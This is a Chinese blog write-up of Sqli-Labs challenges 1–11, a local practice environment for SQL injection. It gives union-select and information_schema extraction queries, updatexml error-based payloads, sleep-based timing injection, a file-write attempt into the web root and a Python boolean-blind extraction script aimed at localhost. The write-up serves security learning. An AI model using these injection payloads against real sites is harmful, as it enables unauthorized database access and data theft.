<!--yml
category: 未分类
date: 2022-04-26 14:47:40
-->

# CTF之Sqli-Labs题目解析（1-11题）_z11h的博客-CSDN博客_sqllabs题目

> 来源：[https://blog.csdn.net/a690135443/article/details/106729202](https://blog.csdn.net/a690135443/article/details/106729202)

# 第一题



提示输入numeric类型的ID作为参数，尝试在url后添加?id=1查看，发现有显示。



改为?id=-1后无显示，也无报错，于是可以考虑-1空出位置后加union select爆数据。

改为?id=1'单引号报错，双引号不报错，可以推断出使用单引号闭合。这里双引号不报错的原因是mysql在执行查询的时候会做一个类型转换，1”会转换为1，mysql测试一下。



所以刚才双引号回显正常。

继续刚才的步骤，加上注释之后，错误也消失了，所以在这个时候可以union select了。



然后添加order by语句，?id=1' order by 4 --+，当order by 4的时候报错，所以一共有3个字段。



然后使用union select 1,2,3 知道字段值对应的回显位置。



可以看到，子查询中第二个字段的位置对应name的位置，第三个字段的位置对应password的位置。

然后用select group_concat(table_name) from information_schema.tables where table_schema = database()爆表名

用select group_concat(column_name) from information_schema.columns where table_name = XXX爆列名即可，其中XXX为上一步爆出的表名，如图



# 第二题

添加单引号和双引号都报错，所以可以判断为数字类型，直接union select并添加注释



然后information_schema爆库即可



# 第三题

单引号报错，双引号正常，说明是单引号闭合。



加order by测字段数又报错，发现需要闭合括号



添加括号果然正确，看一下后台sql：



果然是需要括号闭合的，后面步骤不再重复了。

# 第四题

与上一题类似，只不过单引号+括号闭合变成了双引号+括号闭合。

后台看一下sql语句



# 第五题

单引号闭合错误，双引号闭合正常，说明需要单引号闭合，加上注释后回显正常，用id=-1 union select 1，2，3测试回显位发现无论什么数据都会是同样的页面



考虑使用报错注入。

一般使用updatexml这个函数进行报错注入



原理就是利用updatexml这个函数，可以看一下mysql中关于updatexml函数的用法（help 函数名），大意就是从第一个参数xml_target中找到匹配第二个参数的语句，替换为第三个参数的语句。


构造payload如下：



这里在updatexml中间的参数构造爆表名的语句，而这个语句是不符合xpath语法的。而使用0x7e的原因是mysql在输出错误信息时，只打印特殊符号之后的信息。0x7e在ascii中表示为~，这样就会爆出两个0x7e之间的错误信息，这里可以看到，成功爆出表名。

后台看一下php逻辑



可以看到,只要构造的sql语句可以查出数据,就会输出You are in......这句话，而不会在页面上有其他的显示。而sql出错的话，会直接在页面上打印错误信息。

# 第六题

与第五题类似，只不过单引号闭合换成了双引号闭合。



# 第七题

题目提示使用dump file，由于mac上面没找到合适的shell工具，所以只能尝试到写入文件这一步。


可以看到，虽然报错了，但是文件已经写入到目录里了，apache的目录结构是”/var/www/html“，一开始没能写入是因为linux下面mysql用户没有html这个目录的权限，chmod 777 html改一下权限即可。

# 第八题



单引号闭合，无回显位，无报错信息，考虑使用布尔盲注，用substring逐个字符测试名字。

```
import requests
from string import Template

url2 = "http://localhost:8888/Less-8/?id=1' and substring((select group_concat(table_name) from information_schema.tables where table_schema = database()),${s1},1) = '${s2}' --+"

length = 0

#for i in range(0,20):
#    r = requests.get(Template(url1).substitute(s1=i))
#    if "You are in" in r.text:
#        length =  i

dic = 'abcdefghijklmnopqrstuvwxyz1234567890_,'
name = ""

for i in range(1,50):
    for j in range(0,len(dic)):
        url = Template(url2).substitute(s1=i,s2=dic[j])
        r = requests.get(url)
        if "You are in" in r.text:
            name += dic[j]

print(name)
```

 脚本运行结果



列明和字段同理，替换成相应的select语句即可。

# 第九题

不管输入什么参数，页面回显都一样，加上题目提示time based，遂采用时间盲注。先直接用id=1' and sleep(5) --+测试，发现直接就sleep了，所以是单引号闭合。然后用if函数搭配sleep()函数，如果if函数第一个表达式正确，就执行第二个表达式，也就是sleep函数，睡眠一段时间，否则执行第三个表达式。



由于sqli-labs环境搭建在本机的docker里，所以sleep(1)秒即可发现明显差别，当然具体的判断语句和之前一样。

# 第十题

和第九题一样，只不过单引号闭合改成了双引号闭合，思路是完全相同的。

# 第十一题

之前的题目都是GET方式的请求，第11题开始变成了POST方式的请求，不过大同小异，换成Burp拦截看一下。



尝试修改uname参数，结果直接成功

# 